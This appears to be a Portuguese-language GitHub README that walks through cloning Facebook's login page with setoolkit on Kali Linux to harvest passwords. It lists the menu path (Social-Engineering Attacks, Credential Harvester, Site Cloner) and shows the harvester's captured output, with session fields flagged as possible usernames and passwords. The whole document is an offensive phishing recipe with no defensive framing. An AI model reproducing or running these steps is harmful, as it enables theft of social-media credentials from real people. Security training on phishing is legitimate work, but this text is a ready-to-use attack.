 # Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

### Resutados

![Alt text](./passwd.png "Optional title")

Após executar passo a passo, segue resultado:

10.0.2.15 - - [31/Jan/2025 12:58:30] "POST /ajax/webstorage/process_keys/?state=1 HTTP/1.1" 302 -
[*] WE GOT A HIT! Printing the output:
PARAM: local_storage[hb_timestamp]=13                                                          
PARAM: local_storage[Session]=20                                                               
PARAM: local_storage[signal_flush_timestamp]=13                                                
PARAM: session_storage[TabId]=6                                                                
PARAM: session_storage[sp_pi]=216                                                              
PARAM: logtime=2                                                                               
PARAM: __aaid=0                                                                                
POSSIBLE USERNAME FIELD FOUND: __user=0                                                        
PARAM: __a=1                                                                                   
PARAM: __req=l                                                                                 
PARAM: __hs=20119.BP:DEFAULT.2.0...0                                                           
PARAM: dpr=2                                                                                   
PARAM: __ccg=EXCELLENT                                                                         
PARAM: __rev=1019736753                                                                        
PARAM: __s=:tpocfc:r2c3zm                                                                      
PARAM: __hsi=7466094569697707100                                                               
PARAM: __dyn=7xe6E5aQ1PyUbFp41twpUnwgU29zE6u7E3rw5ux60Vo1upE4W0OE3nwaq0yE7i0n24o5-0me1Fw5uw5Uwdq0Ho2eU5O09yyE1582ZwrU1Xo1UU3jwea                                                              
PARAM: __csr=                                                                                  
PARAM: lsd=AVrBNYetcG4                                                                         
PARAM: jazoest=2937                                                                            
POSSIBLE PASSWORD FIELD FOUND: __spin_r=1019736753                                             
POSSIBLE PASSWORD FIELD FOUND: __spin_b=trunk                                                  
POSSIBLE PASSWORD FIELD FOUND: __spin_t=1738335604                                             
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.                                  
                                                                                          
